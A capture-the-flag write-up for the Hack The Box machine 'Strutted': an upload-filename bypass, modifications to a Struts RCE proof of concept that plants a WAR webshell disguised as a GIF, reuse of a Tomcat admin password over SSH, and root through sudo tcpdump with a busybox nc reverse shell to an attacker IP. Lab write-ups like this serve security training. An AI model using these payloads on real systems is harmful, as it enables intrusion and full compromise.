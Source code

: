 # Writeup: Strutted
### Difficulty: Medium
### OS: Linux

As the first step, i did the nmap scan.\
![img](ss/nmap.png)\
We can see port 22 and 80. Lets access the http service first.\
![img](ss/error.png)\
lets add the `strutted.htb` to `/etc/hosts` with `nano /etc/hosts` and add this line at the end of it.\
![img](ss/hosts.png)\
Now we can take a peek into the site. We can see an upload form which is almost always vulnerable in HTB boxes.\
![img](ss/site.png)\
However, what caught my eye is the bottom text which says we can download and see how the platform is configured. Lets download it and unzip it.\
![img](ss/unzip.png)\
While looking through the config files, i saw the `struts` version in the `pom.xml` file.\
![img](ss/pom.png)\
And since the box name is `strutted`,I figured its main point is `struts`.\
So I googled for any exploits and saw that theres multiple CVEs.\
![img](ss/struts.png)\
But before that, I wanted to check out the upload form.\
So I uploaded a gif and caught its request with `burpsuite` to take a look at it.\
![img](ss/testburp.png)\
Here we can see that the gif data is being sent with POST. \
I forwarded the request for now.\
And we got the gif i uploaded here.\
![img](ss/gif.png)\
When i used the copy link button, it didnt work. So i had to inpect it and saw that the gif is indeed being uploaded to the machine and we can view from that.\
![img](ss/path.png)\
So lets make a dummy gif first, to check if we can change the filename during the upload, and get a possible exploit. For that, run\
`touch tst.gif` then add 
```
GIF89a;

testgif
```
<font color=green size= 5> I put 84 here which was a mistake, the correct version is 89. I corrected it while uploading later on. 
The correct format is<font color=red> "GIF89a"</font></font>\
![img](ss/echo.png)\
Upload the the gif and capture the request.\
Lets modify the request\
![img](ss/tstburp.png)\
First, we need to change `"upload"` to `"Upload"`.
```
------WebKitFormBoundarycr7UE9hKBNcK6ZcO
Content-Disposition: form-data; name="Upload"; filename="tst.gif"
Content-Type: image/gif
```
Then we should add the header to change the filename in the upload process.\
For that, add the following to at the end of the request before the closing of boundary.
```
------WebKitFormBoundarycr7UE9hKBNCk6ZcO
Content-Disposition: form-data; name="uploadFileName";

tst.txt

```
![img](ss/upldfilenme.png)\
Final request will be similar to this.
```
POST / HTTP/1.1
Host: strutted.htb
Content-Length: 287
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://strutted.htb
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarycr7UE9hKBNcK6ZcO
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://strutted.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=D3586AF452D828D8F641635A65FE2C18
Connection: keep-alive

------WebKitFormBoundarycr7UE9hKBNcK6ZcO
Content-Disposition: form-data; name="Upload"; filename="tst.gif"
Content-Type: image/gif

GIF84a;
testgif

------WebKitFormBoundarycr7UE9hKBNCk6ZcO
Content-Disposition: form-data; name="uploadFileName";

tst.txt
------WebKitFormBoundarycr7UE9hKBNcK6ZcO--

```
Now lets forward the request.\
#### REMINDER: "GIF89a is the right one"
![img](ss/succsfl.png)\
Nice, the upload was successful. Now lets check the file format.\
![img](ss/txtpath.png)\
Boom! We can see that the file format was changed.\
Now lets search for the CVE that we noticed earlier. I used some dorking so that we can find some easy PoC to use.\
And ofcourse its RCE thats always juicy.\
![img](ss/rce.png)\
I found this nice PoC and so I cloned it into my attackbox.\
![img](ss/git.png)\
Install the requirements if needed.\
However, we need to change some things in the exploit.py to work because of the upload restrictions and the parents in the upload file path.(upload/TIMESTAMP/file)\
So lets change the `NO_OF_PARENTS_IN_PATH` to 5
```python
NUMBER_OF_PARENTS_IN_PATH = 5
```
And add a line to add `b"GIF89a` infront of the upload file to bypass the checking.\
And change the `arbitrary.txt` to gif, and change the format to `"image/gif"`.
```python
war_file_content = open(NAME_OF_WEBSHELL_WAR, "rb").read()
war_file_content = b"GIF89a;" + war_file_content

files = {
	HTTP_UPLOAD_PARAM_NAME.capitalize(): ("arbitrary.gif", war_file_content, "image/gif"),
	HTTP_UPLOAD_PARAM_NAME+"FileName": war_location
}
```
I used `nano exploit.py`\
![img](ss/nano.png)\
Then, with that set, time for exploitation.\
I ran the exploit with\
`python3 exploit.py --url http://strutted.htb/upload.action`\
![img](ss/whoami.png)\
And I got the webshell successfully. So i went and checked who the users in this machine is and found that my user is `james`\
![img](ss/etc.png)\
Now lets look for the creds for `james`\
![img](ss/pass.png)\
And inside the `tomcat-users.xml`, I found a password for `admin`. \
![img](ss/admin.png)\
I tried that password for `james` in ssh and BOOM!.\
We got in...\
![img](ss/ssh.png)
### Privilege escalation
With our foothold as `james`, lets check his sudo permissions.\
![img](ss/sudo.png)\
And we can see that he can run tcpdump as root.\
Now with that, lets check [GTFOBins](http://gtfobins.github.io) and check the tcpdump section.\
![img](ss/gtfo.png)\
From this we can understand that with the following commands, we can get a rootshell.
```bash
echo 'busybox nc 10.10.16.20 9999 -e /bin/bash' > pwn
chmod +x pwn
```
And on another shell, start a listener.
```bash
nc -nvlp 9999
```
And now lets run the exploit.
```bash
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z ./pwn -Z root
```
![img](ss/rootshell.png)\
With that, we have successfully rooted the box and we can `cat` the flags.